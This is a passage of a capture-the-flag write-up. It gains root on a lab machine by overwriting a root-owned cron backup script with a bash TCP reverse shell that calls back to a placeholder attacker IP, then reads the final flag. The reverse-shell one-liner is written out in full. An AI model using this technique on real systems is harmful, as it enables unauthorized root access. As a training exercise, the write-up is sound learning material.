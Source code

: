 We have an interesting shell script called **backup.sh** that is owned by **root**. 

**backup.sh:**

<img style="float: left;" src="screenshots/screenshot31.png">

Looks like the shell script uses `tar` to archive the contents of /root/container into a backup file called backup.tar. Since this is a backup file, we can assume that this runs periodically as a cronjob. Furthermore, we can actually write over this file as we have root privileges! This is great as this means that we can overwrite the contents and write in a command to open up a reverse shell. The file will then be executed by root after some time has passed.

<br>

We'll use the bash tcp reverse shell payload from:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

To overwrite the backup.sh file, we use:

```
echo '#!/bin/bash\nbash -i >& /dev/tcp/YOUR_IP_HERE/4242 0>&1' > backup.sh
```

We then set up a netcat listener on our local machine.

<br>

After some time, a reverse shell is opened and we get access into our target machine as the root user!

<img style="float: left;" src="screenshots/screenshot32.png">

With that, we can obtain Flag 4 from the home directory of root.

<img style="float: left;" src="screenshots/screenshot33.png">
